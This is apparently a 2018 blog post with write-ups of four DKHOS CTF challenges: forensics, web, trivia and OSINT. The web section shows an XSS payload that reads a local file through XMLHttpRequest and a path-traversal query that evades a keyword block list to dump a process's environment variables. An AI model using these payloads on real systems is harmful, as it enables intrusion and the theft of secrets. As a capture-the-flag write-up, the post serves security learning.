 ```yaml
---
layout: post
comments: true
title:  "DKHOS CTF - Writeups"
date:   2018-02-19 15:04:23
categories: [CTF]
tags: [CTF, DKHOS]
---
```


---

### Forensic 300 - Hadi Hoppala vede Cuppala 
---

The link provided in the task was a corrupted file with no clue.

![image]({{ site.baseurl }}/assets/images/post4/post4-9.jpg)

After a brief inspection on header, I understood that this was a [7z] file but got corrupted.

Found the instructions for proper header and footer values on http://www.7-zip.org/recover.html and started to work on this on the last 20 minutes but couldn't make it in time as I was having problem with CRC checksum.

![image]({{ site.baseurl }}/assets/images/post4/post4-10.jpg)

Just FYI, I also spend some time after CTF officially ended. This 7z file was also password protected. To crack it I used brute-forcing with rockyou and found 'piggies' was the password.

Flag:
```
DKHOS_{4l_G1rd1n_g1rd1n}
```
---

### Web 200 – Kımızım Kandan Bahtım Karadan

---

When we access to the ip provided, a web page with 'Not Found' text was welcoming us. After inspecting the website code we found the github repo of the [blog theme].

From here, first thing to do was actually Diff'ing the repo with the code in the site. And we've found a file upload section.
In here we also found an XSS vulnerability on Filename attribute and things were going really smooth!

With the code

```javascript
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///flag.txt");
x.send();
</script>
```

We were able to get the fl.. Unfortunately, it wasn't that easy:).

Just under the page, we have seen the 'DEV' environment and thought this could be a virtual host. We prepared the query and get the response:

```python
import os
from flask import Flask, request
app = Flask(__name__)
blist = (
'proc',
'www',
'var',
'etc',
'root',
'home',
'self',
'flag'
)
def get_flag():
    return os.environ.get('FLAG', '')
def super_firewall(path):
    for b in blist:
        if b in path:
            return False
    return True 
@app.route("/")
def hello():
    return "internal file storage, /file?name="
@app.route("/file")
def get_file():
    name = request.args.get('name', 'server.py')
    if not name:
        name = 'server.py'
    status = super_firewall(name)
    if not status:
        return "access denied"
    with open(name, 'r') as fp:
        content = fp.read()
        return content
if __name__ == '__main__':
    app.run(debug=False)
```

From here, it can be seen as FLAG was stored as an environment variable and we have to echo it somehow. In order to do it, we also need to bypass this mini filter blist.

After couple of trial and errors we prepared the query as:
```
/file?name=/dev/fd/../environ
```

and we got the flag:
```
LANG=en_US.UTF-8SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sockSUPERVISOR_ENABLED=1SUPERVISOR_PROCESS_NAME=internal
FLAG=DKHOS_{y0u_g0t_m3_pyth0n1st4}SUPERVISOR_GROUP_NAME=internalPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

---

### Trivia 400 – Kişi Faizi
---
Right after seeing this 'intentional English translation fails', I directly understood this was about TV Series 'Person of Interest' from the title.

![image]({{ site.baseurl }}/assets/images/post4/post4-1.jpg)

In the description, a document about Frank Stephens's death was mentioned and the flag was the date on it.  After a brief search on the net, I found the Season 1 Episode 3 could be helpful but watching the whole episode didnt make any sense. Thus I found the episode conversation script and searched for the name.

![image]({{ site.baseurl }}/assets/images/post4/post4-2.jpg)

After guessing the time according to these, the document with the flag was on that exact frame.

![image]({{ site.baseurl }}/assets/images/post4/post4-3.jpg)

---
### Cyber Intelligence 300 – Naber?
---

From the task description, it was clear that this was a social platform lookup.

![image]({{ site.baseurl }}/assets/images/post4/post4-4.jpg)

On the instagram, I've found the user with an interesting share. If looked closer, it can be understood that it was a github account!

![image]({{ site.baseurl }}/assets/images/post4/post4-5.jpg)

There was nothing suspicious on this repo as it was just a fork of another repo. Then in the commits I've found some nasty stuff.

![image]({{ site.baseurl }}/assets/images/post4/post4-6.jpg)

From here, I found the pastebin account:

![image]({{ site.baseurl }}/assets/images/post4/post4-7.jpg)

There was a strange text with a code in this pastebin. After trying telegram groups, we wanted to try whatsapp and found the flag as the name of the group!.



[blog theme]: https://github.com/BlackrockDigital/startbootstrap-clean-blog/tree/gh-pages
[7z]: http://www.7-zip.org
[The Foundation for Children with Leukemia]: http://www.losev.org.tr
[Invictus/Prodaft]: https://www.invictuseurope.com/
[Siberyildiz]: https://www.siberyildiz.com/
[Twitch]: https://www.twitch.tv/hackingwars

